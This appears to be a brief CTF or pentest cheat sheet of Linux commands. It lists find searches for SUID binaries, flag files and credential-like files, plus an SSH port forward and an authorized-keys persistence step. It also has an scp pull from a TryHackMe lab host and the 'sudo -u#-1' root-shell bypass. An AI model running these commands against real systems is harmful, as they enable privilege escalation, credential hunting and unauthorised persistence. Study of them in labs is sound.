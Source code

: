# find
```
find / -perm -4000 2>/dev/null
```

```
find / -user user -perm -4000 -print 2>/dev/null
```

```
find / -user user -print 2>/dev/null
```

```
find / -perm -u=s -type f 2>/dev/null
```

```
find / 2>/dev/null | grep -i flag
```

```
find / -type f -user www-data
```

```
find / -type f -name root.txt 2>/dev/null
```

```
find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
```
## find credential
```
find / -name *.txt 2>/dev/null
```

```
find / -type f -name "flag.*" 2>/dev/null
```

```
find / -type -f -name "*.log" 2>/dev/null
```

```
find / -type f -name "*.bak" 2>/dev/null
```
# ssh
## port forwarding
```
ssh -L 9001:127.0.0.1:9001 -i id_rsa user@[RHOST]
```
## authorization_keys
```
cat id_rsa.pub >> authorization_keys
```
## scp
```
scp -P 4444 tryhackme@10.10.1.46:/home/tryhackme/exploit /home/kali/tryhackme
```
# sudo
```
sudo -u#-1 /bin/bash
```